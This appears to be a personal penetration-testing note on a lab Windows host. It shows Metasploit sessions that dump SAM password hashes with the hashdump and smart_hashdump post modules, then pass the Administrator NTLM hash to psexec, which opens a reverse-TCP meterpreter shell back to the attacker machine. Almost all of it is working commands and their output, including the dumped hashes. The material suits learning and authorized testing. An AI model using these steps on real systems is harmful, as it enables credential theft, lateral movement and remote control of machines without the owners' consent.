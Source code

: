 # Pre-requisite - [[SAM]]
- First we need to get the meterpreter shell on the target machine

## Loading Windows Gather Local User Account Password Hashes(Registry) module
```python
meterpreter > background
[*] Backgrounding session 1...
[*] Starting persistent handler(s)...
msf6 exploit(windows/smb/psexec) > use post/windows/gather/hashdump
msf6 post(windows/gather/hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/hashdump) > run

[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY dd91c9306524a269648bf7248e6b6a07...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

No users with password hints on this system

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
----------------------------SNIP----------------------------------------
[*] Post module execution completed

```

## Doing above stuffs but with different module
```python
msf6 post(windows/gather/hashdump) > use post/windows/gather/smart_hashdump
msf6 post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run

[*] Running module against VAGRANT-2008R2
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20230401114808_default_192.168.216.11_windows.hashes_903436.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY dd91c9306524a269648bf7248e6b6a07...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[*] 	No users with password hints on this system
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[+] 	vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[+] 	
----------------------------------SNIP-------------------------------------
[*] Post module execution completed
```
- If the target is a domain controller, it will dump the domain account database using the proper technique depending on privilege level, OS, and role of the host
- Above one name is Windows Gather local and Domain Controller Account Password Hashes.

## Passing the above Hash for meterpreter
```python
msf6 post(windows/gather/smart_hashdump) > use exploit/windows/smb/psexec
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 192.168.216.11
RHOST => 192.168.216.11
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
SMBPass => aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] 192.168.216.11:445 - Connecting to the server...
[*] 192.168.216.11:445 - Authenticating to 192.168.216.11:445 as user 'Administrator'...
[*] 192.168.216.11:445 - Selecting PowerShell target
[*] 192.168.216.11:445 - Executing the payload...
[+] 192.168.216.11:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.216.11
[*] Meterpreter session 4 opened (192.168.216.9:4444 -> 192.168.216.11:49880) at 2023-04-01 12:29:50 +0530

meterpreter > 
```